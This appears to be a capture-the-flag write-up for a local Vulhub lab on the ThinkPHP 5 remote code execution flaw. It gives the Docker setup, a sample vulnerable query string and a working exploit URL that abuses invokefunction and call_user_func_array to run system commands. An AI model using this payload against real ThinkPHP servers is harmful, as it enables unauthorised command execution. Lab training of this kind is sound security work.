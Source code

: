 # Challenge 10: ThinkPHP

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge exploits a **ThinkPHP** vulnerability that allows remote attackers to leverage `App.php` for arbitrary code execution using a crafted query string.

Example vulnerable query string:
```
s=index/\think\Request/input&filter=phpinfo&data=1
```

---

## Solution
The challenge can be solved with a single command after some research:  
```bash
http://localhost:8484/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/var/www/html/flag.txt
```

**Flag:**
```
flag{ThinkPHP_PWNED}
```

---

## Steps to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to ThinkPHP RCE Directory
```bash
cd vulhub/thinkphp/5-rce
```

### 3. Insert the Flag
```bash
RUN echo "flag{ThinkPHP_PWNED}" > /var/www/html/flag.txt
```

### 4. Start the Container
```bash
docker-compose up -d
```

---

## Final Notes
This challenge shows how improper input validation in web frameworks can lead to full **Remote Code Execution (RCE)**. Keeping frameworks up to date is critical to prevent such exploits.
